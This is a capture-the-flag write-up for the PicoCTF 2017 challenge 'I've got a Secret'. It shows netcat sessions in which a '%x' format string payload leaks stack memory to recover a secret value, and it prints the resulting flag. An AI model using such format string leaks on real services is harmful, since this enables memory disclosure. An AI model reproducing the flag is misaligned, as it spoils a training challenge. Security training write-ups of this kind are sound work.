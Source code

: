 # PicoCTF_2017: I've got a Secret

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Hopefully you can find the right format for my [secret](secret.c)! Source. Connect on shell2017.picoctf.com:55189.

**Hint:**

>This is a beginning format string attack.

## Write-up
A classic format string attack.

    $ nc shell2017.picoctf.com 55189
    Give me something to say!
    %x %x %x %x %x %x %x %x %x %x
    40 f7fc7c20 8048792 1 ffffdd34 18d28c09 3 f7fc73c4 ffffdca0 0
    Now tell my secret in hex! Secret: 0xf7fc73c4
    As my friend says,"You get nothing! You lose! Good day, Sir!"

    $ nc shell2017.picoctf.com 55189
    Give me something to say!
    %x %x %x %x %x %x %x %x %x %x
    40 f7fc7c20 8048792 1 ffffdd34 18d28c09 3 f7fc73c4 ffffdca0 0
    Now tell my secret in hex! Secret: 0x18d28c09
    a18450ba7aaa8c085c522cdef6ab35ab
    Wow, you got it!

Therefore, the flag is `a18450ba7aaa8c085c522cdef6ab35ab`.
